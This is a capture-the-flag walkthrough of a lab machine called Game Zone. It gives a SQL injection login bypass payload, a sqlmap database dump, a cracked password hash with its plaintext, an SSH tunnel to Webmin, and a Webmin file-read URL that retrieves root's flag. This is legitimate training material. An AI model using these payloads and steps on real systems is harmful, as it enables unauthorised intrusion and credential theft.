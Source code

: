 # Game Zone
## 1. Recon
`nmap -sT -sC -sV --script vuln <IP_Address> -oN GameZone.nmap -v`

Output of the NMAP:

```# Nmap 7.91 scan initiated Fri Mar 19 03:54:41 2021 as: nmap -sT -sC -sV -oN GameZone.nmap -vv 10.10.215.135
Nmap scan report for 10.10.215.135
Host is up, received syn-ack (0.10s latency).
Scanned at 2021-03-19 03:54:43 UTC for 24s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFJTi0lKi0G+v4eFQU+P+CBodBOruOQC+3C/nXv0JVeR7yDWH6iRsFsevDofWcq05MZBr/CDPCnluhZzM1psx+5bp1Eiv3ecO0PF1QjhAzsPwUcmFSG1zAg+S757M+RFeRs0Jw0WMev8N6aR3uBZQSDPwBHGps+mZZZRcsssckJGQCZ4Qg/6PVFIwNGx9UoftdMFyfNMU/TDZmoatzo/FNEJOhbR38dF/xw9s/HRhugrUsLdNHyBxYShcY3B0Y2eLjnnuUWhYPmLZqgHuHr+eKnb1Ae3MB5lJTfZf3OmWaqcDVI3wpvQK7ACC9S8nxL3vYLyzxlvucEZHM9ILBI7Ov
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKAU0Orx0zOb8C4AtiV+Q1z2yj1DKw5Z2TA2UTS9Ee1AYJcMtM62+f7vGCgoTNN3eFj3lTvktOt+nMYsipuCxdY=
|   256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL6LScmHgHeP2OMerYFiDsNPqgqFbsL+GsyehB76kldy
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 19 03:55:07 2021 -- 1 IP address (1 host up) scanned in 26.34 seconds
```

** There is web server running at port 80. Let have a look at it. **

Oh!! There is a login portal.
It have a SQLI vulnerability.
Lets payload!!!

`' or 1=1 -- -` as username and password.

If there exists the admin user then username:`admin` and password `' or 1=1 -- -`. 

What do the payload meant to be:
1. or ==> Returns True if any one of the statements is True. eg: `A or B` returns true if either A or B becomes true.
2. `1=1` which is True. ==> OR returns True
3. `--` makes the remaining code in the line to comment
4. `-` The previous "--" works only when there is a space following it. To ensure space we are adding "-" to the payload after leaving space. ie: (-- -).

It will redirect to the portal.php page.

## 2. SQLmap

Fire up the burp suite ==> we need to capture the request when we log in to the server.
- [ ] Fire up Burp
- [ ]  Capture the request while log in and save it to the file
- [ ]  `sqlmap -r <File_Name> --dbms=mysql --dump`
- [ ]  After running this command the output will be saved at `/.local/share/sqlmap/output/<Target_Name>`
- [ ]  Find the hashes of the password associated with the username.
- [ ]  Use log file to find the other tables found by the sqlmap.

Username - agent47
Password Hash - ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

## 3. John The Ripper (JTR)

John the Ripper is the password cracking tool.

`john <Hash file in txt> --worldlist=<list> --format=Raw-SHA256`

The password is `videogamer124`.

## 4. Expose services using Reverse SSH tunnels

Connect to the machine using the username and password that we have cracked.

Then type `ss -tulpn`

`ss` is an utility to investigate sockets.

``` t - TCP sockets
	u - UDP
	l - listening sockets
	p - process using the socket
	n - Doesn't resolve service names
```

After running this command we can find 5 tcp sockets were being used.
But we were not able to access the port 10000.

`ssh -L 10000:localhost:10000 username@IP_ADDR` 

After getting the shell go to `localhost:10000` in the local computer to access the web application the firewall is blocking.

Found Webmin Service Running at port 10000.
Service Version 1.580

## 5. Privilege Escalation
We can get the files as root permission from the URL
`http://localhost:10000/file/show.cgi/root/root.txt`







